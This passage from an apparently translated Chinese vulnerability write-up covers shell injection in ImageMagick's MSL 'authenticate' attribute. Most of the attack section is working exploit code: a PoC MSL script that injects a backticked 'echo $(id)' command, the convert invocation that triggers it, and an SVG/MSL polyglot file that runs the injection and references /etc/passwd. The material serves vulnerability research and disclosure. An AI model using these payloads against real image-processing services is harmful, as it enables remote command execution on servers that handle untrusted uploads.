 经过一番折腾，我发现该路径可以处理任何设置了authenticate属性的标记。但是代码将定义的值分配给了density属性，这是没有任何意义的。在研究了其余的MSL代码后，我得出以下结论：

1）这段代码应该是想要设置authenticate属性，类似于”-authenticate”命令行参数。

2）代码是错误的，因此阻止了滥用shell注入的可能性。

因此，我决定做一些以前从未做过的事情：通过Github提交此问题，看看能否得到解决。为此，我创建了一个新的github帐户：https://github.com/ImageMagick/ImageMagick/discussions/2779。

最后，代码被正确修复了： 

```
if (LocaleCompare(keyword,"authenticate") == 0)

`{`

(void) SetImageOption(image_info,keyword,value);

break;

`}`
```

我立即创建了一个PoC MSL脚本来验证是否可以利用shell注入漏洞。注意，必须指定msl:协议处理程序，这样IM才能正确地解析脚本文件： 

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;

&lt;image authenticate='test" `echo $(id)&gt; ./poc`;"'&gt;

&lt;read filename="test.pdf" /&gt;

&lt;get width="base-width" height="base-height" /&gt;

&lt;resize geometry="400x400" /&gt;

&lt;write filename="out.png" /&gt;

&lt;/image&gt;

convert msl:test.msl whatever.png
```

它成功了：创建了“PoC”文件，从而验证了shell注入漏洞的可利用性。

最后一步：将所有内容打包到一个SVG polyglot文件中。



## SVG MSL polyglot文件

我创建的polyglot文件其实就是一个SVG文件，它将自身加载为MSF文件，以触发shell注入漏洞。这个SVG polyglot文件如下所示： 

poc.svg:

```
&lt;image authenticate='ff" `echo $(id)&gt; ./0wned`;"'&gt;

&lt;read filename="pdf:/etc/passwd"/&gt;

&lt;get width="base-width" height="base-height" /&gt;

&lt;resize geometry="400x400" /&gt;

&lt;write filename="test.png" /&gt;

&lt;svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink"&gt;

&lt;image xlink:href="msl:poc.svg" height="100" width="100"/&gt;
```